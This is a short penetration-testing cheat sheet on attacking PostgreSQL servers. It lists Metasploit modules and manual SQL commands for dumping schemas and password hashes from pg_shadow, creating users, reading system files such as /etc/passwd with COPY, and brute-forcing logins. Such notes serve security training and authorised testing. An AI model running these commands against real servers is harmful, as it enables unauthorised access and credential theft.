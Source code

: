 # PostGreSQL

## Enumeration using metasploit

### Determining Version of PostGreSQL Server

Metasploit can be used to determine the version of a PostGreSQL server using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_version`

### Dumping Database Schema

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_schemadump`

### Create a database user 

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/admin/postgres/postgres_sql`

`set SQL CREATE USER <username>;`

### Dump PostGreSQL Usernames and Password Hashes

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_hashdump`

### Read Local File

The following auxiliary module can be used to read a file from the local file system:

`use auxiliary/admin/postgres/postgres_readfile`

`set RFILE /path/to/file.txt`

`set RHOSTS <IP>`

## Manual Enumeration

### Read Local file

1) Connect to the postgres database 

`psql -h <IP> -U <username>`

2) Create a new table to store the contents of the file:

`CREATE TABLE tablename(t TEXT);`

3) Copy the contents of the file into table:

`COPY tablename FROM '/etc/passwd';`

4) Show the contents of the file stored within the table "tablename"

`SELECT * FROM tablename limit 30 offset 0;`

### Dump PostGreSQL Database Usernames and Password Hashes

`select usename, passwd from pg_shadow;`

## Bruteforcing Login Passwords

### Bruteforcing using Hydra

[Hydra PostGres Bruteforce](../password-cracking/hydra.md#postgresql-database-login)
